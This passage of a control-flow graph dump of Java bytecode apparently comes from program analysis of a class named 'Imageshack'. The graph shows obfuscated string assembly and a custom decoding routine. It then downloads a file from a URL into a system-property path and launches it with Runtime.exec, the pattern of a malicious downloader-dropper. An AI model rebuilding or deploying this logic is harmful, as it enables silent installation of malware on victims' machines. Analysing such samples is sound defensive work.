    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r4"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r $r204"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r204";
    "load.r $r204"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "staticinvoke <Imageshack: java.lang.String bz(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <Imageshack: java.lang.String bz(java.lang.String,java.lang.String)>";
    "push \"-_-\""
    "staticinvoke <Imageshack: java.lang.String bz(java.lang.String,java.lang.String)>"->"push \"-_-\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"-_-\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 2";
    "push 2"->"arrayread.r";
    "push \"G\""
    "arrayread.r"->"push \"G\"";
    "ifcmpeq.r goto return"
    "push \"G\""->"ifcmpeq.r goto return";
    "push null"
    "ifcmpeq.r goto return"->"push null";
    "push null"->"store.r r4";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "store.r r4"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r1";
    "store.r r1"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r9";
    "load.r $r9"->"push 9";
    "push 9"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 21";
    "push 21"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r $r9";
    "new java.net.URL"
    "store.r $r9"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r $r204";
    "store.r $r204"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"load.r r4";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "load.r r4"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"store.r $r204";
    "new java.io.FileOutputStream"
    "store.r $r204"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r4";
    "store.r r4"->"load.r r4";
    "new java.lang.StringBuilder"
    "load.r r4"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r9";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r $r9"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r r4";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r r4"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"load.r $r204";
    "push 0L"
    "load.r $r204"->"push 0L";
    "push 1048576L"
    "push 0L"->"push 1048576L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 1048576L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r r4";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r r4"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"load.r $r204";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"
    "load.r $r204"->"interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0";
    "interfaceinvoke <java.nio.channels.ReadableByteChannel: void close()> 0"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r9";
    "load.r $r9"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"store.r r4";
    "goto load.r r4"
    "store.r r4"->"goto load.r r4";
}

